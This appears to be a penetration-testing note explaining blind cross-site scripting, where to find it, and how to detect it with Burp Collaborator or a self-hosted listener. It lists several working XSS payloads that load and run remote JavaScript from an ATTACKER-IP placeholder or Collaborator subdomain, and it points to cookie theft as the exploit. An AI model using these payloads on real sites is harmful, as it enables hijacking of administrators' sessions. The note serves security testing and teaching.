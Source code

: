 Blind XSS vulnerabilities are a variant of stored XSS vulnerabilities. They occur when an attacker input is saved in the database and executed as a malicious script in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded.

Other example of web applications or pages where blind XSS may occur:
- Log viewers
- Exception handlers
- Chat applications / forums
- Customer ticket applications
- Product reviews
- Any application that requires user moderation by certain users (e.g Admins)
## Detection
To test for blind XSS vulnerabilities, attackers can use out-of-band techniques with the Burp Collaborator server or using their own custom script.
### Burp Collaborator
1. Right-click the request you want to investigate and select Send to Repeater.
2. In the Repeater tab, change a parameter's value to a proof-of-concept payload. As you don't know which characters may be filtered or encoded, use a payload that works in most contexts, such as: `</script><svg/onload='+/"/+/onmouseover=1/+(s=document.createElement(/script/.source), s.stack=Error().stack, s.src=(/,/+/BURP-COLLABORATOR-SUBDOMAIN/).slice(2), document.documentElement.appendChild(s))//'>`.
3. Click Send.
### Custom Remote Script
An attacker can create their own custom script and host it on a server they own. Once a custom script is available, an attacker can start a listener using `netcat` or `php` or `python`.

With that, an attacker can start testing various XSS payloads that load a remote script and see which of them sends a request. The following are a few examples from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss).
1. `<script src=http://ATTACKER-IP/script-fieldname.js></script>`
2. `'><script src=http://ATTACKER-IP/script-fieldname.js></script>`
3. `javascript:eval('var a=document.createElement(\'script\');a.src=\'http://ATTACKER-IP/script-fieldname.js\';document.body.appendChild(a)')`
4. `<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//ATTACKER-IP/script-fieldname.js");a.send();</script>`
5. `<script>$.getScript("http://ATTACKER-IP/script-fieldname.js")</script>`
## Exploit
Blind XSS vulnerabilities can be exploited to [steal user cookies](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FAdvanced%20XSS%20PoC%2FSteal%20Website%20Cookies).